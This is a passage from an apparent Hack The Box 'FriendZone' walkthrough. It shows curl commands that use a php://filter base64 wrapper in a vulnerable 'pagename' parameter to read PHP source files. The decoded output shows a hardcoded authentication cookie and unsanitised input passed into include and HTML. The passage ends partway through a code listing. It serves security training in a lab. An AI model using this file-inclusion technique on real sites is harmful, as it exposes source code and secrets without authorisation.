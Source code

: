 	- `pagename`
		- Based on how the webpage included `timestamp`, we are able to assume that `.php` is appended before the file is included.
			```
			# Hypothesis
			include $_GET[pagename] . '.php'
			```
5. We are able to view the source code of the webpage by "exploiting" `GET` parameter `pagename` by base64 encoding it
	- `timestamp.php`
		```
		┌──(root💀kali)-[~/htb/friendzone]
		└─# curl -ks -H "Cookie: FriendZoneAuth=e7749d0f4b4da5d03e6e9196fd1d18f1; sid=62febea0-31b0-11ed-a80f-e52e5d473100" 'https://administrator1.friendzone.red/dashboard.php?image_id=test&pagename=php://filter/convert.base64-encode/resource=timestamp' | cut -d '>' -f21 | base64 -d
		<?php
		
		
		$time_final = time() + 3600;
		
		echo "Final Access timestamp is $time_final";
		
		
		?>
		```
		- Nothing interesting
	- `dashboard.php`
		```
		┌──(root💀kali)-[~/htb/friendzone]
		└─# curl -ks -H "Cookie: FriendZoneAuth=e7749d0f4b4da5d03e6e9196fd1d18f1; sid=62febea0-31b0-11ed-a80f-e52e5d473100" 'https://administrator1.friendzone.red/dashboard.php?image_id=test&pagename=php://filter/convert.base64-encode/resource=dashboard' | cut -d '>' -f21 | base64 -d
		<?php
		
		//echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
		//echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
		echo "<title>FriendZone Admin !</title>";
		$auth = $_COOKIE["FriendZoneAuth"];
		
		if ($auth === "e7749d0f4b4da5d03e6e9196fd1d18f1"){
		 echo "<br><br><br>";
		
		echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
		echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
		
		if(!isset($_GET["image_id"])){
		  echo "<br><br>";
		  echo "<center><p>image_name param is missed !</p></center>";
		  echo "<center><p>please enter it to show the image</p></center>";
		  echo "<center><p>default is image_id=a.jpg&pagename=timestamp</p></center>";
		 }else{
		 $image = $_GET["image_id"];
		 echo "<center><img src='images/$image'></center>";
		